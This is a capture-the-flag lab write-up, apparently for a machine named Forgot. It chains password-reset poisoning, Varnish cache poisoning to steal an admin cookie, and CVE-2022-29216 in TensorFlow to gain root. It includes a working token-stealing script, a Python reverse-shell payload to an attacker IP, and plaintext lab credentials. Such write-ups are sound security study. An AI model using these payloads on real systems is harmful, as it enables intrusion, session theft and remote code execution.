




## Enum
```bash
cat scans/nmap.initial
# Nmap 7.93 scan initiated Wed Dec 21 23:26:49 2022 as: nmap -sC -sV -oN scans/nmap.initial 10.10.11.188
Nmap scan report for 10.10.11.188
Host is up (0.32s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE    VERSION
22/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http-proxy Varnish http accelerator
|_http-server-header: Varnish
|_http-title: 503 Backend fetch failed
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 21 23:28:33 2022 -- 1 IP address (1 host up) scanned in 104.36 seconds
```

  
  

So this is a flask app cached with varnish
```
python 3.8.10
flask/werkzeug 2.1.2
varnish 6.2
```

```bash
dirsearch -r -u http://10.10.11.188         130 ⨯

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/blnkn/.dirsearch/reports/10.10.11.188/_23-01-28_22-35-44.txt

Error Log: /home/blnkn/.dirsearch/logs/errors-23-01-28_22-35-44.log

Target: http://10.10.11.188/

[22:35:44] Starting:
[22:36:04] 302 -  189B  - /home  ->  /
[22:36:08] 200 -    5KB - /login
[22:36:11] 200 -    5KB - /forgot
[22:36:16] 200 -    5KB - /reset

Task Completed
```

## Forgot password feature

Login page sends credentials as a urlencoded POST to `/login` 
Doesn't seem to leak if a user exists or not as the message is always `Invalid Credentials`  
  
Hitting the forgot password button does a get to `/forgot`  
This prompts for a username that is sent to as a GET param to `/forgot`  
Admin password can't be reset  
Trying to reset a random username gets us a `Invalid users` response  
So we might have a way to enumerate valid users there  
  
Attempting to bruteforce the forgot page to get a valid username:  
Looks like I got blacklisted or something  
```bash
ffuf -w /usr/share/seclists/Usernames/Names/names.txt -u 'http://10.10.11.188/forgot?username=FUZZ' -c

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.188/forgot?username=FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/Names/names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

abree                   [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 92ms]
abraham                 [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 95ms]
abram                   [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 98ms]
abdullah                [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 98ms]
ace                     [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 105ms]
abdul                   [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 105ms]
aby                     [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 119ms]
abriel                  [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 121ms]
abrianna                [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 122ms]
chiarra                 [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 67ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

Now I get an error from varnish  
  

Trying to pivot through a previously owned box to see if my ip is blacklisted: 
```bash
ssh -vfNCD 8000 angoose@stocker.htb
```
```
curl -x socks://127.0.0.1:8000 'http://10.10.11.188/login'
<!DOCTYPE html>
<html>
  <head>
    <title>503 Backend fetch failed</title>
  </head>
  <body>
    <h1>Error 503 Backend fetch failed</h1>
    <p>Backend fetch failed</p>
    <h3>Guru Meditation:</h3>
    <p>XID: 3244052</p>
    <hr>
    <p>Varnish cache server</p>
  </body>
</html>
```

Yea, no...  looks like I might have borked it, time to reset

After a reset it now shows this as a comment in the source of `/login`:  
```html
<!-- Q1 release fix by robert-dev-10036 -->
```

That was showing like that before... nevermind:
```html
<!-- Q1 release fix by-->
```

Trying to login with that an a bogus password in `/login` gives us the same `Invalid Credentials` as before  
But in the `/forgot` page we get a new error:  
   

So this user is valid and a `Password reset link has been sent to user inbox`, can we steal that?  
Trying to do some password reset poisoning as described in this [portswigger post](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning).      

   

And if we're listening locally we can catch that token
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.188 - - [28/Jan/2023 23:33:34] code 404, message File not found
10.10.11.188 - - [28/Jan/2023 23:33:34] "GET /reset?token=vh57l92o3dRhzzoMfw8qaXSK62JTzfc595xA96sb4k7N%2BoTwaoIui76o93mHnvx6lXXmybMxZBLltlxp3SSyCA%3D%3D HTTP/1.1" 404 -
10.10.11.188 - - [28/Jan/2023 23:33:34] code 404, message File not found
10.10.11.188 - - [28/Jan/2023 23:33:34] "GET /reset?token=DJ0eyqWHi%2FuAdX0EaRDquVwbmTuDE675rh1BkyoB00TFldCO%2BGfJa8m4kvVVdF62whm9tLaVrYX99a1CiGmCeA%3D%3D HTTP/1.1" 404 -
10.10.11.188 - - [28/Jan/2023 23:33:34] code 404, message File not found
10.10.11.188 - - [28/Jan/2023 23:33:34] "GET /reset?token=A8TniCi1v3vIg0cfzWe8tyO85JVHbtAhvCSwu0veBSGFXH95AcrivMcH34vA6%2BPw1SyBycGoNL0zgMnJjp4ihA%3D%3D HTTP/1.1" 404 -
```

Of course this was meant to be sent from the server to the server and we know from our earlier enum that the `/reset` path exists, so lets try to hit it with the token
```
http://10.10.11.188/reset?token=vh57l92o3dRhzzoMfw8qaXSK62JTzfc595xA96sb4k7N%2BoTwaoIui76o93mHnvx6lXXmybMxZBLltlxp3SSyCA%3D%3D
```
And we get a `success` error now:  
  

So we should now be able to login, but this isn't working because the site is borked again?  
  

Resetting the box and trying the whole process once more.  
Finally got in

So now we got a session cookie: 
```bash
curl -I -b 'session=e619bd1a-4f08-4411-9774-0e4267e7504d' 'http://10.10.11.188/home'
HTTP/1.1 200 OK
Server: Werkzeug/2.1.2 Python/3.8.10
Date: Sun, 29 Jan 2023 10:19:31 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 6540
Set-Cookie: session=e619bd1a-4f08-4411-9774-0e4267e7504d; HttpOnly; Path=/
X-Varnish: 229455
Age: 0
Via: 1.1 varnish (Varnish/6.2)
Accept-Ranges: bytes
Connection: keep-alive
```
```bash
curl -I 'http://10.10.11.188/home'
HTTP/1.1 302 FOUND
Server: Werkzeug/2.1.2 Python/3.8.10
Date: Sun, 29 Jan 2023 10:19:41 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 189
Location: /
X-Varnish: 229458
Age: 0
Via: 1.1 varnish (Varnish/6.2)
Connection: keep-alive
```

All this seems a bit short lived, as it seems the dev user is beeing updated regularly by some scripts for the needs of the CTF. So here's a quick and dirty python script to automate fetching the user, stealing the reset password link and resetting the password:
```python
from flask import *
import sys
import requests
from base64 import b64encode
from urllib.parse import urlparse
from urllib.parse import parse_qs
import logging

log = logging.getLogger('werkzeug')
log.setLevel(logging.ERROR)

def get_username():
    login = requests.get(f"http://{host}").content
    login = login.decode().split("\n")
    dev_comment = [x for x in login if "Q1 release fix by" in x]
    username = dev_comment[0].split("by ")[-1].split(" ")[0]
    if username:
        print("Found username: " + username)
    return username

host = "10.10.11.188"
my_ip = "10.10.14.53"
passwd = "asdf"
username = get_username()
app = Flask(__name__)


def trigger_iforgot():
    url = f"http://{host}/forgot?username={username}"
    headers = {"Host": f"{my_ip}"}
    res = requests.get(url, headers=headers)
    if "Please use the link to reset your password" in res.text:
        print("Password link sent. Awaiting token...")

def change_password(token):
    url = f'http://{host}/reset?token={token}'
    data = f'password={passwd}'
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Host": host
    }
    print(f"Sending password change request to {url}")
    res = requests.post(url, data=data, headers=headers)
    if "Success" in res.text:
        print(res.text)
        print(f"{username}:{passwd}")
        sys.exit()

@app.route("/reset")
def reset_listener():
    token = request.url.split("=")[1:][0]
    #print("received: " + token)
    change_password(token)
    return "Success"


if __name__ == "__main__":
    trigger_iforgot()
  app.run(host='0.0.0.0', port=80)
```

## Enumerating the webapp further as robert

So we're logged in as robert   
Let's have dirsearch running in the background with that cookie set
We have access to `/tickets` wich shows existing tickets  
And `/escalate` which lets us escalate existing tickets to the admin with a link and a reason field   
This is sent as a POST that looks like this:  

request
```
POST /escalate HTTP/1.1
Host: 10.10.11.188
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 155
Origin: http://10.10.11.188
Connection: close
Referer: http://10.10.11.188/escalate
Cookie: __hstc=37486847.8e5c3224c1cd5c149271923b09aae509.1674944197616.1674944197616.1674944197616.1; hubspotutk=8e5c3224c1cd5c149271923b09aae509; __hssrc=1; __hssc=37486847.46.1674944197616; session=e619bd1a-4f08-4411-9774-0e4267e7504d

to=Admin&link=http://10.10.14.53:8000/hello&reason=http://10.10.14.53:8000/hello&issue=Getting error while accessing search feature in enterprise platform.
```
response
```
HTTP/1.1 200 OK
Server: Werkzeug/2.1.2 Python/3.8.10
Date: Sun, 29 Jan 2023 10:31:23 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 62
Set-Cookie: session=e619bd1a-4f08-4411-9774-0e4267e7504d; HttpOnly; Path=/
X-Varnish: 3213363
Age: 0
Via: 1.1 varnish (Varnish/6.2)
Accept-Ranges: bytes
Connection: close

This request can't be reviewed since the issue link is flagged
```

  

Trying a few things, it looks like:
- external ip or domain names are beeing flagged
- doesn't need to start with http://
- if it starts with http:// it needs to be the local ip and it can't have a port spec

Since we can send a ticket for review by the admin through the escalate endpoint, I tried to do some xss to get the cookie from the admin, a few url filtering evasion techniques, as described in this [OWASP cheat sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#url-string-evasion)  
Some techniques seems to successfully bypass the filter, but I still didn't get a callback

The directory search didn't really find anything more than what we found manually
```bash
dirsearch --cookie='session=e619bd1a-4f08-4411-9774-0e4267e7504d' -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -r -u http://10.10.11.188                                                                                           

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 56158

Output File: /home/blnkn/.dirsearch/reports/10.10.11.188/_23-01-28_23-58-01.txt

Error Log: /home/blnkn/.dirsearch/logs/errors-23-01-28_23-58-01.log

Target: http://10.10.11.188/

[23:58:01] Starting:
[23:58:02] 200 -    5KB - /login
[23:58:02] 200 -    6KB - /home
[23:58:06] 200 -    7KB - /tickets
[23:58:26] 200 -    5KB - /reset
[00:02:01] 200 -    9KB - /escalate

Task Completed
```

Starting sqlmap in the backgroud    

Looking at the source, we learn about the address of the escalated tab:
```
<nav class="navbar">
    <a href="/home">home</a>
    <a href="/tickets">tickets</a>
    <a href="/escalate">escalate</a>
    <a href="/admin_tickets" class="disabled">tickets(escalated)</a>
```


```bash
curl -b 'session=e619bd1a-4f08-4411-9774-0e4267e7504d' 'http://10.10.11.188/admin_tickets'
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/home?err=ACCESS_DENIED">/home?err=ACCESS_DENIED</a>. If not, click the link.
```


## Varnish cache poisoning


This is what the `X-Varnish` header is for According to varnish's documentation  
```
The X-Varnish HTTP header allows you to find the correct log-entries for the transaction. For a cache hit, X-Varnish will contain both the ID of the current request and the ID of the request that populated the cache. It makes debugging Varnish a lot easier
```

After a lot of research and trial and error, I figured out that cache poisonning is possible  
[Port Swigger - web-cache-poisoning](https://portswigger.net/web-security/web-cache-poisoning)   
As we pointed out before the escalate endpoint does not filter out urls that are based on the ip of the local machine, so we can do a cache poisonning attack this way:

- 1 set the link to a random, non existing address in the /static path on the box, as long as it's based on the boxe's ip this won't get filtered out.
- 2 admin goes to the address and the server responds 404, but with a Set-Cookie header for admin.
- 3 that response gets cached by varnish, including the Set-Cookie header with the session cookie
- 4 Finally we GET that address ourselves, and now the varnish cache serves the previously cached response to us, including the admin cookie  

1:
```
POST /escalate HTTP/1.1
Host: 10.10.11.188
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 136
Origin: http://10.10.11.188
Connection: close
Referer: http://10.10.11.188/escalate
Cookie: __hstc=37486847.6174496460614d702b6fac7d5e4b635e.1676462479653.1676462479653.1676462479653.1; hubspotutk=6174496460614d702b6fac7d5e4b635e; __hssrc=1; __hssc=37486847.6.1676462479653; session=b6079287-ba7b-417c-acfa-7f1360c52f91

to=Admin&link=http://10.10.11.188/static/haaaaaa.zoinks&reason=&issue=Getting error while accessing search feature in enterprise platform.
```

2:  
Wait for admin to go click on that

3:  
Varnish caches the response served to admin

4:  
```
curl -i http://10.10.11.188/static/haaaaaa.zoinks
HTTP/1.1 404 NOT FOUND
Server: Werkzeug/2.1.2 Python/3.8.10
Date: Sat, 18 Feb 2023 22:14:01 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 207
Set-Cookie: session=2a714102-574b-40b6-8bdd-422335897bc7; HttpOnly; Path=/
cache-control: public, max-age=240
X-Varnish: 295051 295039
Age: 47
Via: 1.1 varnish (Varnish/6.2)
Connection: keep-alive

<!doctype html>
<html lang=en>
<title>404 Not Found</title>
<h1>Not Found</h1>
<p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
```

We can now use that cookie and access `/admin_tickets`, and there's some credentials exposed in the ticket `diego:dCb#1!x0%gjq`  :  
  


## Privesc enum

Looking around, there is a .keras/keras.json thing that seems to be config files in relations to tensorflow.  

There's also a  user.py script in diego's homefolder, with hardcoded credentials for a local mysql instance, that's the same credentials we already have.  
It reads the forgot links in the database, so this is what we caught when we store the reset link.  
Then opens the escalated links from the database, presumably the ones uploaded by the users of the app.  
It logs in to the web app, with hardcoded creds again for admin, recovers the cookie, from the response, then with that cookie it iterates through each of the links in the db sends 3 gets with the cookie, and removes the entrie from the db.
That's the cookie that got cached and that we managed to steal to get there.
So we now have 2 sets for creds, 3 if we go look in the database:  
  
`robert-dev-*:dCvf34@3#8(6`  
`diego:dCb#1!x0%gjq`  
`admin:dCvbgFh345_368352c@!`


```python 
#!/usr/bin/python3
import os
import mysql.connector
import requests
import netifaces as ni

# Fetch Links
conn = mysql.connector.connect(host="localhost",database="app",user="diego",password="dCb#1!x0%gjq")
cursor = conn.cursor()
cursor.execute('select * from forgot')
r = cursor.fetchall()

# Open reset links
for i in r:
        try:
                requests.get(i[1],timeout=10)
        except:
                pass

# Open tickets as admin
cursor.execute('select * from escalate')
r = cursor.fetchall()
tun_ip = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
d = requests.post(f'http://{tun_ip}/login',data={'username':'admin','password':'dCvbgFh345_368352c@!'})
cookie = d.headers['Set-Cookie'].split('=')[1].split(';')[0]

for i in r:
        try:
                print(i[2])
                requests.get(i[2],cookies={'session':cookie})
                requests.get(i[2],cookies={'session':cookie})
                requests.get(i[2],cookies={'session':cookie})
                cursor.execute('delete from escalate where link=%s',(i[2],))
                conn.commit()
        except:
                pass
conn.close()
```

ml security... maybe this has something to do with that keras thing
```bash
diego@forgot:~/app/static/images$ sudo -l
Matching Defaults entries for diego on forgot:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User diego may run the following commands on forgot:
    (ALL) NOPASSWD: /opt/security/ml_security.py
```


```bash
diego@forgot://opt/security/lib$ for i in $(ls -1);do file $i;done
d2v.model: data
DecisionTreeClassifier.sav: data
GaussianNB.sav: data
KNeighborsClassifier.sav: data
MLPClassifier.sav: data
RandomForestClassifier.sav: data
SVC.sav: data
```

```python
#!/usr/bin/python3
import sys
import csv
import pickle
import mysql.connector
import requests
import threading
import numpy as np
import pandas as pd
import urllib.parse as parse
from urllib.parse import unquote
from sklearn import model_selection
from nltk.tokenize import word_tokenize
from sklearn.linear_model import LogisticRegression
from gensim.models.doc2vec import Doc2Vec, TaggedDocument
from tensorflow.python.tools.saved_model_cli import preprocess_input_exprs_arg_string

np.random.seed(42)

f1 = '/opt/security/lib/DecisionTreeClassifier.sav'
f2 = '/opt/security/lib/SVC.sav'
f3 = '/opt/security/lib/GaussianNB.sav'
f4 = '/opt/security/lib/KNeighborsClassifier.sav'
f5 = '/opt/security/lib/RandomForestClassifier.sav'
f6 = '/opt/security/lib/MLPClassifier.sav'

# load the models from disk
loaded_model1 = pickle.load(open(f1, 'rb'))
loaded_model2 = pickle.load(open(f2, 'rb'))
loaded_model3 = pickle.load(open(f3, 'rb'))
loaded_model4 = pickle.load(open(f4, 'rb'))
loaded_model5 = pickle.load(open(f5, 'rb'))
loaded_model6 = pickle.load(open(f6, 'rb'))
model= Doc2Vec.load("/opt/security/lib/d2v.model")

# Create a function to convert an array of strings to a set of features
def getVec(text):
    features = []
    for i, line in enumerate(text):
        test_data = word_tokenize(line.lower())
        v1 = model.infer_vector(test_data)
        featureVec = v1
        lineDecode = unquote(line)
        lowerStr = str(lineDecode).lower()
        feature1 = int(lowerStr.count('link'))
        feature1 += int(lowerStr.count('object'))
        feature1 += int(lowerStr.count('form'))
        feature1 += int(lowerStr.count('embed'))
        feature1 += int(lowerStr.count('ilayer'))
        feature1 += int(lowerStr.count('layer'))
        feature1 += int(lowerStr.count('style'))
        feature1 += int(lowerStr.count('applet'))
        feature1 += int(lowerStr.count('meta'))
        feature1 += int(lowerStr.count('img'))
        feature1 += int(lowerStr.count('iframe'))
        feature1 += int(lowerStr.count('marquee'))
        # add feature for malicious method count
        feature2 = int(lowerStr.count('exec'))
        feature2 += int(lowerStr.count('fromcharcode'))
        feature2 += int(lowerStr.count('eval'))
        feature2 += int(lowerStr.count('alert'))
        feature2 += int(lowerStr.count('getelementsbytagname'))
        feature2 += int(lowerStr.count('write'))
        feature2 += int(lowerStr.count('unescape'))
        feature2 += int(lowerStr.count('escape'))
        feature2 += int(lowerStr.count('prompt'))
        feature2 += int(lowerStr.count('onload'))
        feature2 += int(lowerStr.count('onclick'))
        feature2 += int(lowerStr.count('onerror'))
        feature2 += int(lowerStr.count('onpage'))
        feature2 += int(lowerStr.count('confirm'))
        # add feature for ".js" count
        feature3 = int(lowerStr.count('.js'))
        # add feature for "javascript" count
        feature4 = int(lowerStr.count('javascript'))
        # add feature for length of the string
        feature5 = int(len(lowerStr))
        # add feature for "<script"  count
        feature6 = int(lowerStr.count('script'))
        feature6 += int(lowerStr.count('<script'))
        feature6 += int(lowerStr.count('&lt;script'))
        feature6 += int(lowerStr.count('%3cscript'))
        feature6 += int(lowerStr.count('%3c%73%63%72%69%70%74'))
        # add feature for special character count
        feature7 = int(lowerStr.count('&'))
        feature7 += int(lowerStr.count('<'))
        feature7 += int(lowerStr.count('>'))
        feature7 += int(lowerStr.count('"'))
        feature7 += int(lowerStr.count('\''))
        feature7 += int(lowerStr.count('/'))
        feature7 += int(lowerStr.count('%'))
        feature7 += int(lowerStr.count('*'))
        feature7 += int(lowerStr.count(';'))
        feature7 += int(lowerStr.count('+'))
        feature7 += int(lowerStr.count('='))
        feature7 += int(lowerStr.count('%3C'))
        # add feature for http count
        feature8 = int(lowerStr.count('http'))

        # append the features
        featureVec = np.append(featureVec,feature1)
        featureVec = np.append(featureVec,feature2)
        featureVec = np.append(featureVec,feature3)
        featureVec = np.append(featureVec,feature4)
        featureVec = np.append(featureVec,feature5)
        featureVec = np.append(featureVec,feature6)
        featureVec = np.append(featureVec,feature7)
        featureVec = np.append(featureVec,feature8)
        features.append(featureVec)
    return features


# Grab links
conn = mysql.connector.connect(host='localhost',database='app',user='diego',password='dCb#1!x0%gjq')
cursor = conn.cursor()
cursor.execute('select reason from escalate')
r = [i[0] for i in cursor.fetchall()]
conn.close()
data=[]
for i in r:
        data.append(i)
Xnew = getVec(data)

#1 DecisionTreeClassifier
ynew1 = loaded_model1.predict(Xnew)
#2 SVC
ynew2 = loaded_model2.predict(Xnew)
#3 GaussianNB
ynew3 = loaded_model3.predict(Xnew)
#4 KNeighborsClassifier
ynew4 = loaded_model4.predict(Xnew)
#5 RandomForestClassifier
ynew5 = loaded_model5.predict(Xnew)
#6 MLPClassifier
ynew6 = loaded_model6.predict(Xnew)

# show the sample inputs and predicted outputs
def assessData(i):
    score = ((.175*ynew1[i])+(.15*ynew2[i])+(.05*ynew3[i])+(.075*ynew4[i])+(.25*ynew5[i])+(.3*ynew6[i]))
    if score >= .5:
        try:
                preprocess_input_exprs_arg_string(data[i],safe=False)
        except:
                pass

for i in range(len(Xnew)):
     t = threading.Thread(target=assessData, args=(i,))
#     t.daemon = True
     t.start()
```

```bash
diego@forgot://opt/security$ pip show tensorflow
Name: tensorflow
Version: 2.6.3
Summary: TensorFlow is an open source machine learning framework for everyone.
Home-page: https://www.tensorflow.org/
Author: Google Inc.
Author-email: packages@tensorflow.org
License: Apache 2.0
Location: /usr/local/lib/python3.8/dist-packages
Requires: numpy, google-pasta, wheel, keras-preprocessing, astunparse, clang, wrapt, grpcio, tensorflow-estimator, gast, termcolor, h5py, opt-einsum, typing-extensions, six, flatbuffers, absl-py, tensorboard, keras, protobuf
Required-by:
```

## CVE-2022-29216
[https://github.com/advisories/GHSA-75c9-jrh4-79mc](https://github.com/advisories/GHSA-75c9-jrh4-79mc)  

```bash
saved_model_cli run --input_exprs 'hello=exec("""import socket\nimport subprocess\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(("10.10.14.157",4242))\nsubprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())""")' --dir ./ --tag_set serve --signature_def serving_default
```
^ this works but we probably need to trigger it directly from the script

In the custom script there is this 
```python
preprocess_input_exprs_arg_string(data[i],safe=False)
```

The function comes from here: 
```python
from tensorflow.python.tools.saved_model_cli import preprocess_input_exprs_arg_string
```

And that corresponds exactly to the CVE mentioned above, where it still alows to run it through eval if safe is set to False.
```python
def preprocess_inputs_arg_string(inputs_str):
  """Parses input arg into dictionary that maps input to file/variable tuple.

  Parses input string in the format of, for example,
  "input1=filename1[variable_name1],input2=filename2" into a
  dictionary looks like
  {'input_key1': (filename1, variable_name1),
   'input_key2': (file2, None)}
  , which maps input keys to a tuple of file name and variable name(None if
  empty).

  Args:
    inputs_str: A string that specified where to load inputs. Inputs are
    separated by semicolons.
        * For each input key:
            '<input_key>=<filename>' or
            '<input_key>=<filename>[<variable_name>]'
        * The optional 'variable_name' key will be set to None if not specified.

  Returns:
    A dictionary that maps input keys to a tuple of file name and variable name.

  Raises:
    RuntimeError: An error when the given input string is in a bad format.
  """
  input_dict = {}
  inputs_raw = inputs_str.split(';')
  for input_raw in filter(bool, inputs_raw):  # skip empty strings
    # Format of input=filename[variable_name]'
    match = re.match(r'([^=]+)=([^\[\]]+)\[([^\[\]]+)\]$', input_raw)

    if match:
      input_dict[match.group(1)] = match.group(2), match.group(3)
    else:
      # Format of input=filename'
      match = re.match(r'([^=]+)=([^\[\]]+)$', input_raw)
      if match:
        input_dict[match.group(1)] = match.group(2), None
      else:
        raise RuntimeError(
            '--inputs "%s" format is incorrect. Please follow'
            '"<input_key>=<filename>", or'
            '"<input_key>=<filename>[<variable_name>]"' % input_raw)

  return input_dict
```

The good news is, we controll the `inputs_str` variable through the reason field in the escalate endpoint.
```python
hello=exec("""import socket\nimport subprocess\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(("10.10.14.157",4242))\nsubprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())""")
```

Which means it's just a matter of sending that the payload as `reason` in the url form:  
  

After that we'll be able to see it in the database:  
```sql
+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| hello=exec("""import socket\nimport subprocess\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(("10.10.14.157",4242))\nsubprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())""") |
+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.00 sec)

mysql>
mysql>
```

Trigger the script with sudo and catch a reverse shell as root  
  
